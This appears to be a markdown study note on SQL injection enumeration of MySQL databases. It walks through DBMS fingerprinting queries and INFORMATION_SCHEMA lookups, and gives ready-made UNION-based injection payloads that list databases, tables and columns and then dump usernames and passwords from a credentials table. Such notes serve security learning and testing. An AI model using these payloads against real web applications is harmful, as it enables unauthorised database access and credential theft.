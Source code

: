 # Database Enumeration
***
### MySQL fingerprinting
#### Before enumerating the database, it's important to know which DBMS is the application using. This happens because each DBMS has different queries.
#### Initially we can try to guess by the webserver that we can detect in the HTTP responses, if it is Apache or NGINX, it is probably running on linux, so the DBMS is most likely MySQL. We can also think like that for Microsoft DBMS if the webserver is IIS, it is likely to be MSSQL
#### However, this it's just a guess , as many other databases can be used on either os or web server.

#### Queries to fingerprint MySQL databases
* `SELECT @@version`      / When we have full query output / MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' / In MSSQL it returns MSSQL version. Error with other DBMS.
* `SELECT POW(1,1)`     /  When we only have numeric output /  1            / Error with other DBMS
* `SELECT SLEEP(5)`    /  Blind/No Output                  /  Delays page response for 5 seconds and returns 0. / Will not delay response with other DBMS

#### INFORMATION_SCHEMA Database
##### We need the following information , in order to properly form our SELECT queries to use in UNION SELECT queries:
* List of databases
* List of tables within each database
* List of columns within each table

##### INFORMATION_SCHEMA is a database of metadata about the databases and tables on the server
##### **NOTE**: To reference a table present in another database, we can use '.' operator
##### Example:
```sql
SELECT * FROM my_db.users;
```

#### SCHEMATA
##### The first step of our enumeration should be, trying to find what databases are available on the DBMS
##### SCHEMATA provides information about databases (schema is a database)
#### Example to get all databases name:
```mysql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
##### **NOTE**: mysql, information_schema, performance_schema, sys, are default databases and are present on any server.

#### Example  with UNION:
```sql
v' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
##### To discover which database is being used by the web application we can use the database() function.
#### Example :
```sql
v' UNION select 1,database(),3,4 -- 
```

#### TABLES
##### Then we need to get all tables within a database before extracting data from a given database
##### In order to achieve that we can use the TABLES table in the **INFORMATION_SCHEMA** database.
##### The TABLES table provides information about tables in  databases
##### In that table there are several columns, but the most important for us are **TABLE_SCHEMA** and **TABLE_NAME** columns.
* The TABLE_NAME column sores table names, while the TABLE_SCHE;A column points to the database each t able belongs

#### Example with UNION:
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```

#### COLUMNS
##### Before dumping the data from a table, we first need to find the column names in the table, which can be found in the **COLUMNS** table.
#### The **COLUMNS** table provides information about columns in tables

#### Example with UNION:
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```

#### Dumping the data
##### Finally, after those steps we are able to retrieve the data that we want from the database
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```